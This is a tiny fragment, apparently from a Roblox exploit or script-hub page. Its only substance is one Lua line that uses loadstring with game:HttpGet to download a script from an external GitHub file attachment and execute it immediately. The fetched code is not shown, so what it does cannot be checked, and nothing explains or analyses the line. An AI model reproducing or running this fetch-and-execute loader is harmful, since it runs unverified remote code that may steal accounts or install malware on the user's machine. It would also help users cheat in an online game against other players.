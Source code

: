 
loadstring(game:HttpGet('https://github.com/NeaPchX2/buyScript-2Xhub/files/8984957/HappyXd.txt', true))()
